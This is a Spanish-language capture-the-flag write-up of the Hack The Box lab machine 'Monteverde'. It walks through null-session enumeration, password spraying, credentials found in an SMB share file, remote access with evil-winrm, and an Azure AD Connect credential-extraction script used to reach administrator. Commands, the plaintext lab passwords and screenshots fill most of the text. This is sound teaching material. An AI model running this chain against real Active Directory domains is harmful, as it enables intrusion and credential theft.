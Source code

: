 #  MONTEVERDE MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/1.png)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.10.172 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49669,49675,49676,49678,49695 -sV -sC 10.10.10.172 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/3.png)

## EXPLOTACION

nos estamos enfrentando a un active directory ya que el servicio de kerberos (88)  esta abierto, vamos a empezar con la enumeracion del protocolo RPC (135) ya que esta abierto:

podemos probar la sesion nula con la herramienta **rpcclient**:

```bash
rpcclient 10.10.10.172 -N -U ""
```

nos deja conectarnos pero a veces esto es un falso positivo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/4.png)

para ver si en realidad la sesion nula es permitida debemos intentar enumerar algo y ver si nos muestra lo que queremos o un **permission denied**, vamos a enumerar usuarios del dominio:

```bash
enumdomusers
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/5.png)

vemos informacion por lo que la sesion nula si estaba permitida, otra forma de enumerar usuarios podia ser con **enum4linux** ya que el puerto 139 esta abierto:

```bash
enum4linux -a 10.10.10.172
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/6.png)

vamos a extraer los usuarios con rpcclient y vamos a filtrar para que solo quede el nombvre de usuario:

```bash
rpcclient 10.10.10.161 -N -U "" -c "enumdomusers" >users.txt

cat users.txt | grep -oP "\[.*?\]" | tr -d "[]" | grep -v "^0x" > users

rmk users.txt
```

se intento un ataque de **ASRPRoast** pero no tuvo exito, asi que algo que puede pasar el un CTF es que a partir de una lista de usuario se puede aplicar fuerza bruta hacia algun servicio. 

Vimos que el puerto 445 (Samba) se encontraba abierto asi que intentemos enumerar recursos con un null session:

```bash
smbmap -H 10.10.10.172
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/7.png)

Hagamos un **autentication spraying** con la lista de usuario mediante la herramienta **crackmapexec** hacia el servicio samba que se encontraba abierto:

```bash
cme smb 10.10.10.172 -u users.txt -p users.txt
```

vemos que encontro unas posibles credenciales validas sin privilegios. (Sabemos que no tiene privilegios porque sino pondria **pwned!**)


![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/8.png)

|Usuario|Password|
|:----:|:----:|
|SABatchJobs|SABatchJobs|

ahora con estas credenciales intentemos enumerar recursos compartidos por samba:

```bash
smbmap -H 10.10.10.172 -u "SABatchJobs" -p "SABatchJobs"
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/9.png)

vemos que ahora si podemos y vemos muchos recursos, el que llama la atencion a primera vista es **users$** asi que vamos a conectarnos:

```bash
smbclient "//10.10.10.172/users$" -U "SABatchJobs"
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/10.png)

dentro del directorio **mhope** encontramos un archivo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/11.png)

vamos a descargarlo en nuestra maquina kali:

```bash
get azure.xml
```

si lo abrimos localmente vemos unas credenciales que por intuicion creeriamos que le pertenece al usuario **mhope**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/12.png)

muy bien tenemos un nuevo par de credenciales:

|Usuario|Password|
|:----:|:----:|
|mhope|4n0therD4y@n0th3r$|

vimos en el escaneo de puerto que el puerto 5985se encuentra abieto y si es asi y tenemos credenciales validas podemos usar la herramienta **evil-winrm** para obtener una reverse shell:

```bash
evil-winrm -i 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$' -e . -s .
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/13.png)

funciono! Estamos dentro y podemos ver la flag user.txt.

## ELEVACION DE PRIVILEGIOS

Para la escalada de privilegios se realizo la enumeracion de privilegios, usuario, servicios y todo lo que normamente se hace, (en caso de no encontrar nada se puede ir por winPEAS) al ver informacion del usuario con el que nos autenticamos vemos que pertenece a un grupo poco usual:

```bash
net user mhope
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/14.png)

estamos frente un Azure, o eso parece de hecho el archivo donde encontramos las credenciales parecia un archivo propio de azure pero veamos si podemos hacer algo con eso. Busque en google **privilege escalation Azure Admins github**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/15.png)

el primer link muestra un script que extrae credenciales de **Azure AD Connect service**: [https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/16.png)

veamos si tiene ese servicio, podemos ver esto de dos formas.

- con netstat si corre bajo un puerto en especifico
- ver en los **Program Files** de la maquina

hagamos lo segundo primero:

```bash
cd C:\Program Files
ls *Azure*
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/17.png)

al parecr si tnemos ese servicio asi que podemos intentar ejecutar ese script, para ello nos lo pasamos por evil-winrm al equipo victima:

```bash
upload Azure-ADConnect.ps1
```

Una vez ya lo tenemos en la maquina victima lo importmaos y ejecutamos:

```bash
Import-Module ".\Azure-ADConnect.ps1"

Azure-ADConnect -server 10.10.10.172 -db ADSync
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/18.png)

Y obtenemos las credenciales del usuario administrador, ahora podemos conectarnos via **evil-winrm** y obtener la otra flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/MONTEVERDE/images/19.png)







